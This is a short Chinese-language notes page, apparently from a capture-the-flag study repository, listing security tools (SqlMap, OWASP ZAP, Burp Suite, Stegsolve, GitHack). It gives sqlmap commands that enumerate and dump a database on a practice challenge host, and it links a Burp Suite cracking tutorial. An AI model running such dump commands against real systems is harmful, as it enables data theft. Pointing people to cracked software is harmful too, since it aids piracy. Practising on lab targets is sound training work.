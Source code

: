 ## 工具


### SqlMap

### OWASP ZAP

### Burp Suite

破解教程：http://www.52pjb.net/xiazai/36163.html#xzdz

### Stegotools

作用：查看图像的隐写情况。

使用：在tools下运行```jar ./Stegsolve.jar```命令即可。

### GitHack

详情请见·```Githack```文件夹下的```README.md```

### SqlMap

使用步骤：
1. 查看数据库名称：
```
python sqlmap.py http://b1a4b711-121f-431c-a658-19db3107b04c.node4.buuoj.cn:81/index.php?id=1 --dbs
```
2. 查看目标数据库的表,note表示目标表。
```
python sqlmap.py http://b1a4b711-121f-431c-a658-19db3107b04c.node4.buuoj.cn:81/index.php?id=1 -D note --tables
```
3. 查看数据库表字段
```
python sqlmap.py http://b1a4b711-121f-431c-a658-19db3107b04c.node4.buuoj.cn:81/index.php?id=1 -D note --tables -T fl4g --columns
```

4. 查看目标字段的值
```
python sqlmap.py http://b1a4b711-121f-431c-a658-19db3107b04c.node4.buuoj.cn:81/index.php?id=1 -D note --tables -T fl4g -C f111ag --dump
```

最后得到```flag```。

### 其他

1. F5隐写工具使用：https://zhuanlan.zhihu.com/p/480561261